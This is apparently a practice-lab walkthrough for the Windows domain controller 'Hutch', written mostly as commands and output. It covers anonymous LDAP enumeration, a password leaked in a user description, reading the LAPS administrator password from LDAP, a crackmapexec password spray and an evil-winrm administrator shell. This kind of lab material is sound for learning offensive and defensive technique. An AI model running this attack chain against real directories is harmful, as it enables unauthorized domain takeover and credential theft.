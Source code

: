 # Hutch
### Enumeration
```
# Nmap 7.92 scan initiated Sat May  7 15:17:03 2022 as: nmap -sCV -v -p- -oN nmap/tcp_all.out 192.168.202.122
Nmap scan report for ip-192-168-202-122.eu-west-1.compute.internal (192.168.202.122)
Host is up (0.014s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-webdav-scan:
|   Server Type: Microsoft-IIS/10.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Server Date: Sat, 07 May 2022 15:20:04 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-07 15:19:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49930/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2022-05-07T15:20:07
|_  start_date: N/A
|_clock-skew: -1s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May  7 15:20:46 2022 -- 1 IP address (1 host up) scanned in 222.54 seconds
```

We can see the domain name is `hutch.offsec`.

##### 80
Default webserver, a shallow run of gobuster found nothing interesting.

##### SMB
No anonymous access.

##### LDAP
We have anonymous access to LDAP:

```
ldapsearch -x -H ldap://192.168.202.122 -b "dc=hutch,dc=offsec"
```

We'll create a userlist first:

```
ldapsearch -x -H ldap://192.168.202.122 -b "dc=hutch,dc=offsec" '(objectclass=user)' samaccountname | grep -i samaccountname | cut -d: -f2 > ../users.txt
```

Looking at the results of the original full query, we see one user, `fmcsorley` leaks a password in the description, which says:

```
Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
```

Trying the credentials `fmcsorley:CrabSharkJellyfish192` on SMB, we have access to some shares (`NETLOGON`, `SYSVOL` and `IPC$`). However, there's nothing interesting in any of them.

Using them with LDAP returns more information than we had anonymous access to:

```
ldapsearch -x -H ldap://192.168.229.122 -b "dc=hutch,dc=offsec" -w CrabSharkJellyfish192 -D "CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec"
```

I noticed the following entry in the (very large) output:

```
ms-Mcs-AdmPwd: cKco(1-%}!W5IK
```

Googling around, I found out that this is the local administrator password. Note that this might change frequently, so it's possible that you will need to query it again if it fails to grant access.

In addition to finding this password, we found a few more user accounts, so I made a new userlist. I ran a password spray with `crackmapexec`:

```
crackmapexec ldap hutch.offsec --kdcHost hutch.offsec -u users_fmcsorley.txt -p 'cKco(1-%}!W5IK' --continue-on-success
SMB         hutch.offsec    445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
LDAP        hutch.offsec    389    HUTCHDC          [+] hutch.offsec\Administrator:cKco(1-%}!W5IK (Pwn3d!)
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\Guest:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\HUTCHDC$:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\krbtgt:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\rplacidi:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\opatry:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\ltaunton:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\acostello:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\jsparwell:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\oknee:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\jmckendry:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\avictoria:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\jfrarey:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\eaburrow:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\cluddy:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\agitthouse:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\fmcsorley:cKco(1-%}!W5IK
LDAP        hutch.offsec    389    HUTCHDC          [-] hutch.offsec\domainadmin:cKco(1-%}!W5IK
```

Now we can use `evil-winrm` to get a shell as administrator:

```
evil-winrm -u administrator -p 'cKco(1-%}!W5IK' -i 192.168.229.122
```
